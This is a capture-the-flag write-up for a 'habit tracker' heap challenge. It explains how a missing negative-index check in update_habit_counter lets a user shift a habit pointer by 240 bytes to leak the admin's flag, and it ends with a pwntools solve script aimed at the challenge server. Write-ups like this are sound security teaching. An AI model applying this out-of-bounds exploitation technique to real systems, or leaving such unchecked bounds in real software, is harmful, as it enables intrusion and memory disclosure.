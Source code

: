 # Writeup

## TL;DR

The update_habit_counter function allows for out-of-bounds access due to a lack of negative index validation. By creating a dummy habit and accessing the habit at index -3, we can adjust the pointer to point into the first habit of the admin. Adding 240 to this pointer reveals the flag. 240 is the needed offset since each habit will allocate a buffer of size 0x40, which leads to allocation of 0x50 bytes on heap. Since the user has 3 habits, we need offset 0x50 * 3 = 240 bytes offset to at into the first entry of the admin. Since admin is allocated after the user, we need a positive offset.

## Explanation

The program tracks habits for a user and an admin using two `UserAccount` structs. The admin struct contains the flag as its first habit. The vulnerability lies in the `update_habit_counter` function, which does not validate if provided index is negative, allowing for an out-of-bounds access beyond the `counts` array.

The code only checks the upper bound, however `read_int` allows us to enter negative numbers.

```c
// Ensure that only valid habits can be accessed
if (choice > account->active_habits - 1) {
  puts("You're trying to access non-existing habits >:(");
  return;
}
```

Since the habit of the admin contains the flag, we somehow need to leak it from there.

The habits are stored in the `UserAccount` struct as a array of `char *` pointers.

```c
struct UserAccount {
  // 3 habits per user
  char *habits[AMOUNT_HABITS];
  // Array which tracks how often the user has done the habit
  long counts[AMOUNT_HABITS];
  // Amount of currently registered habits
  int active_habits;
};
```

This means that the `habits` array has `AMOUONT_HABITS` entries of memory addresses which point
at a place in memory where the description of the habit is stored. The description is simply
a sequence of bytes (a string), therefore the datatype, which the pointer points at, is a `char`.

This `habits` array is then filled by allocating memory on the heap using `malloc` (memory allocation).

```c
for (int i = 0; i < AMOUNT_HABITS; i++) {
  account->habits[i] = malloc(HABIT_LENGTH);
  account->counts[i] = 0;
}
```

One key thing we have to know to solve this challenge is that `malloc` per default returns
chunks of memory which are directly adjacent to each other on subsequent calls.

This means, if we allocate two chunks of memory using `malloc`, they will be next each other
in memory. Whereas the first chunk will be at a lower memory address and the second chunk at a
higher memory address.

The same logic applies to structs in C. Looking at the `UserAccount` struct, be know
that the `counts` array will be directly after the `habits` struct in memory:

```c
struct UserAccount {
  // 3 habits per user
  char *habits[AMOUNT_HABITS];
  // Array which tracks how often the user has done the habit
  long counts[AMOUNT_HABITS];
  // Amount of currently registered habits
  int active_habits;
};
```

Since we can perform out-of-bounds accesses, we can freely increment pointers in the `habits`
array to make them point at different locations in memory. Since the `admin` struct is allocated
after the `user` struct, we know that the `admin` habits will be allocated directly after the
`user` habits in memory.

```c
// Initialize the structs properly
initialize_account(&user);
initialize_account(&admin);
```

Now we only need to know the offset between one of our habits and the habits of the admin.

The offset can be determined using varies techniques:
- Bruteforce, just trying out always increasing offsets
- Using a debugger. Inspecting the memory reveals the offset
- Little bit of math. Each allocation size is a multiple of 0x10.
  Due to the allocation metadata, the allocation size of 0x40 will be increased to 0x50.
  Since the `user` has 3 habits, each of allocation size 0x50, we need to add 3 * 0x50 = 240 bytes
  to reach the first habit of the `admin` struct.

Note that we first need to create a dummy habit since otherwise `account->active_habits` will
be zero and we can't use the `view_habits` functionality.

## Solve Script

```python
import pwn

def add_habit(name: bytes):
  io.sendline(b"2")
  io.sendline(name)

def update_habit(idx: int, amount: int):
  io.sendline(b"3")
  io.sendline(str(idx).encode())
  io.sendline(str(amount).encode())

def view_habits():
  io.sendline(b"1")

io = pwn.remote("challenges.sshuzl.de", 12378)
# io = pwn.process("./habit_tracker")

### Exploit

add_habit(b"dummy")
# abuse OOB access and increment by 240,
# which makes it point at flag in admin habits.
update_habit(-3, 240)
view_habits()

io.interactive()
```
